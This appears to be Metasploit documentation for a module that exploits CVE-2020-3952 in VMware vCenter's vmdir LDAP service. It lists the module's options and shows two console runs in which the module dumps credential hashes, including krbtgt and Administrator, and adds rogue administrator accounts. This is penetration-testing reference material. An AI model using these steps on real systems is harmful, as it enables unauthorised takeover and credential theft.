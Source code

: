 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user. Version 6.7
prior to the 6.7U3f update is vulnerable, only if upgraded from a
previous release line, such as 6.0 or 6.5.
Note that it is also possible to provide a bind username and password to
authenticate if the target is not vulnerable. It will add an arbitrary
administrator user the same way.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Add

Add an admin user to the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.
`dc=vsphere,dc=local` will be used if not set.

### USERNAME

If you already have a password to authenticate to the LDAP server (see
USERNAME), this option let you setup the bind username in DN format (e.g
`cn=1.2.3.4,ou=Domain Controllers,dc=vsphere,dc=local`).

### PASSWORD

The password to authenticate to the LDAP server, if you have it.

### NEW_USERNAME

Set this to the username for the new admin user.

### NEW_PASSWORD

Set this to the password for the new admin user.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi (vulnerable target)

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BASE_DN                    no        LDAP base DN if you already have it
   NEW_PASSWORD               no        Password of admin user to add
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636              yes       The target port
   SSL       true             no        Enable SSL on the LDAP connection
   NEW_USERNAME               no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set new_username msfadmin
new_username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set new_password msfadmin
new_password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]
not verifying SSL hostname of LDAPS server '[redacted]:636'

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Bypassing LDAP auth in vmdir service at [redacted]:636
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```

### VMware vCenter Server 6.7.0.2 virtual appliance on ESXi (not vulnerable target)

```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                         Required  Description
   ----      ---------------                         --------  -----------
   BASE_DN   dc=vsphere,dc=local                     no        LDAP base DN if you already have it
   USERNAME  cn=192.168.3.32,ou=Domain Controlle     no        The username to authenticate to LDAP server
             rs,dc=vsphere,dc=local
   PASSWORD  #$F4!4SeV\BL~L2gb(oa                    no        Password for the BIND_DN
   NEW_PASSWORD  NewPassword123#                     no        Password of admin user to add
   RHOSTS    192.168.3.32                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                               /wiki/Using-Metasploit
   RPORT     636                                     yes       The target port
   SSL       true                                    no        Enable SSL on the LDAP connection
   NEW_USERNAME  MsfAdmin                            no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against 192.168.3.32

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
not verifying SSL hostname of LDAPS server '192.168.3.32:636'
[*] User-specified base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at 192.168.3.32:636
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/msfuser/.msf4/loot/20220112091121_default_192.168.3.32_VMwarevCenterS_063565.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: 300
vmwpasswordchangefailedattemptintervalsec: 180
vmwpasswordchangemaxfailedattempts: 5
vmwpasswordlifetimedays: 90
vmwpasswordmaxidenticaladjacentchars: 3
vmwpasswordmaxlength: 20
vmwpasswordminalphabeticcount: 2
vmwpasswordminlength: 8
vmwpasswordminlowercasecount: 1
vmwpasswordminnumericcount: 1
vmwpasswordminspecialcharcount: 1
vmwpasswordminuppercasecount: 1
vmwpasswordprohibitedpreviouscount: 5

[+] Credentials found: cn=192.168.3.32,ou=Domain Controllers,dc=vsphere,dc=local:$dynamic_82$95655cbf44635858cd5205e270d0c095b09a3b0420c88240152555b7166111d5066af66d8eb23dbdc8fd7fa82316f35e5ecb7133993318a5b1af8082dfe2899a$HEX$a0e9478dfe575f50655e1be5270a4949
[+] Credentials found: CN=waiter 5782491a-f3fb-4396-92fd-c85a9ecd6f76,cn=users,dc=vsphere,dc=local:$dynamic_82$fc2d53c4da909e23454bd4da49efd6ab2a141c78f3c066ba11ceda7da88603af84fcc8394f651ea786dd8881bbb6de6244802d82cef9733a020c71baf9fe2d50$HEX$55de181bfcc4806c7904bb9372cd1e71
[+] Credentials found: cn=krbtgt/VSPHERE.LOCAL,cn=users,dc=VSPHERE,dc=LOCAL:$dynamic_82$92aaa06a4299c9f91ae005023589df9a3c264c332daa308111fbbb6b289df296f10e9e11c5ecb42e80348887b78033830a4c069c3ef06504818fdf77f30b3932$HEX$93b772cbbe9d2dbc6ece52909df92416
[+] Credentials found: cn=K/M,cn=users,dc=VSPHERE,dc=LOCAL:$dynamic_82$8905aa15c186fdc63943561ae5e51aaf952dc0b0eb9daa4e669f9a77cad4cee941dadf0d7084b9740734991218ef9f5bc8fc729acdba9fe19ada7ab930d8c6b2$HEX$309a74eda966101876f3f9b628f33cee
[+] Credentials found: cn=Administrator,cn=Users,dc=vsphere,dc=local:$dynamic_82$2ae4d52129ba470fd198e4104ad64f8c8e60a2dd560825dfd97a48d0c2777cc863ea365a5f90f3565883b0e1f11ce4461d04dcad359ea5d786a3826012f5b4c6$HEX$2b5ec6876c4c93cad9fb4ff9e8a35930
[+] Credentials found: cn=vmca/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$32a90598e8d80b2f6de98b349975c8013810b4deca01c37d0fe8db63dfaa930d0f9627ee5eda9a1ec0334683d0173c017da4b7294fdd80f36820cec6212a8814$HEX$f00b831d12cb5c1f686a9b73d7cb8127
[+] Credentials found: cn=ldap/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$a149162f0449f7ec9dfd83b69ac43d14d01fc083136b2d2a5ada43052c4f6aca0c49c8384564498da1dc6ae801e3cb7468f9b09b1636b32982d2d3b889bf562b$HEX$33dc0eca659cec74bd5174604ff13d75
[+] Credentials found: cn=DNS/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$a5e78bcf8b5292409ee8c551172a2e96bccb4b41cd06efb111d0c39331260e4142c8ebab62000f4c51e3e90bec471ede5248bc8a27d45145e7a9d7be1a4fa6eb$HEX$39af5d4ce088e1560966e374ec1ea042
[+] Credentials found: cn=host/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$4c778c15111c4ff9792eb943beb7dff2be4b7b6e358b3b3b0eeb59be2ca3d6a8fcee55076164f532ef30487a38beef641f486528f33a576aa3d727f499d76ec7$HEX$477f56bdee35b3758204e3326f2f5460
[*] User-specified base DN: dc=vsphere,dc=local
not verifying SSL hostname of LDAPS server '192.168.3.32:636'
[*] Bypassing LDAP auth in vmdir service at 192.168.3.32:636
[*] Adding admin user MsfAdmin with password NewPassword123#
[+] Added user MsfAdmin, so auth bypass was successful!
[+] Added user MsfAdmin to admin group
[*] Auxiliary module execution completed
```
